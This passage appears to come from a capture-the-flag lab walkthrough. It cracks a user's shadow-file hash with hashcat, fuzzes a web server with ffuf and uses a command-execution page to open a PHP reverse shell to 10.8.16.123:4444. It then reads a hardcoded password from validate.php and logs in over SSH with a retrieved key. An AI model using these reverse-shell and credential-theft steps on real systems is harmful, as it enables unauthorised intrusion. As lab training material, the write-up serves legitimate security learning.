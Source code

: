 ```
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```
Let's crack Charlie hash. Save `$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/` in a file like `hash.txt` and run:
```
hashcat -a 0 -m 1800 hash.txt $ROCKYOU
```
Going ahead, I see that hashcat is not able to crack it, or it is getting a lot of time. Let's try to check the password of Charlie somewhere.

Then, by fuzzing the website by ffuf:
```
ffuf -u http://10.10.222.250/FUZZ.php -w $DIRSMALL

home                    [Status: 200, Size: 569, Words: 29, Lines: 32, Duration: 52ms]
validate                [Status: 200, Size: 93, Words: 2, Lines: 1, Duration: 42ms]
```
By visiting `http://10.10.222.250/home.php`, we can run OS commands by typing them in "Command" field. If we run a `ls` command, we can see a `key_rev_key` file that contains a key to be submitted in the answers. Inside there, we can give a look also to other files, like `validate.php`. If we run `cat` on that file, the browser will interpret it as HTML code. It is better we get a reverse shell. Let's type this command:
```
php -r '$sock=fsockopen("10.8.16.123",4444);exec("sh <&3 >&3 2>&3");'

script /dev/null -c bash
cat validate.php

<?php
	$uname=$_POST['uname'];
	$password=$_POST['password'];
	if($uname=="charlie" && $password=="cn7824"){
		echo "<script>window.location='home.php'</script>";
	}
	else{
		echo "<script>alert('Incorrect Credentials');</script>";
		echo "<script>window.location='index.html'</script>";
	}
```
So, we got the Charlie's password. Using them in the web application, they bring us again to `home.php`. If we come back to it, let's retrieve the content of `/home/charlie/teleport`. It will be the SSH key that we save in a file named `ssh.key` and we use it for connecting by SSH:
```
chmod 600 ssh.key

ssh -i ssh.key 10.10.222.250 -l charlie
```
Now you can connect as Charlie and get the user flag in its home.
